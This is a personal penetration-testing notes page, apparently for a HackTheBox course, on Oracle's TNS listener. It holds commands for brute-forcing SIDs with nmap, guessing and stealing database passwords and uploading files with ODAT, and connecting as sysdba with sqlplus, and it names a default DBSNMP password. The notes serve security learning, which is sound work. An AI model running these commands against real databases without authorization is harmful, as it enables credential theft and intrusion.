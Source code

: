 # TNS

[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Transparent Network Substrate (TNS) is a protocol owned and developed by Oracle. It's mainly used to manage [Oracle Databases](/programming-languages/databases/relational/dbms/oracle.md). 

It includes performance monitoring and analysis, error reporting, and logging tools. It supports a wide range of networking protocols such as IPX/SPX, TCP/IP, IPV6, and SSL/TLS. Communications are encrypted.

🐊️ **Port**: 1521 (TCP)

The server-side service that listens for clients is called a listener. Its configuration determines which networking protocols are allowed.
</div><div>
</div></div>

<hr class="sep-both">

## TNS Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

List databases:

```shell!
$ sudo nmap IP -p 1521 -sV --script oracle-sid-brute
```

[Oracle Database Attacking Tool](https://github.com/quentinhardy/odat) <small>(ODAT, 1.5k ⭐, 2022 ☠️)</small> can be used to enumerate or exploit Oracle Databases.

```ps
$ sudo apt install odat
$ odat all -s IP
$ odat sidguesser -s IP
$ odat passwordguesser -s IP -d sid
$ odat passwordstealer -s IP -U username -P password -d sid --sysdba --get-passwords
$ odat utlfile [...] # file upload
```

📚 User may have sys dba access, try `--sysdba`.
</div><div>

We can use Oracle SQLPlus to connect to the database:

```shell!
$ sudo apt-get install oracle-instantclient-sqlplus
$ sudo updatedb
$ # if you got an error when running sqlplus
$ lpath=$(dirname `locate libsqlplus.so`) ; echo $lpath
$ sudo sh -c "echo $lpath > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
$ # connect
$ sqlplus username/password@IP/sid
$ sqlplus username/password@IP/sid as sysdba
```

📚 User may have sys dba access, try `as sysdba`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `tnsnames.ora` (client-side infos, list of db/services configurations) 
* `listener.ora` (server-side config, listener config)
* `$ORACLE_HOME/network/admin` folder
* DBSNMP service has `dbsnmp` default password
* Finger service?
* PL/SQL Exclusion List (PlsqlExclusionList)
* Remove Listener Management?
</div><div>
</div></div>
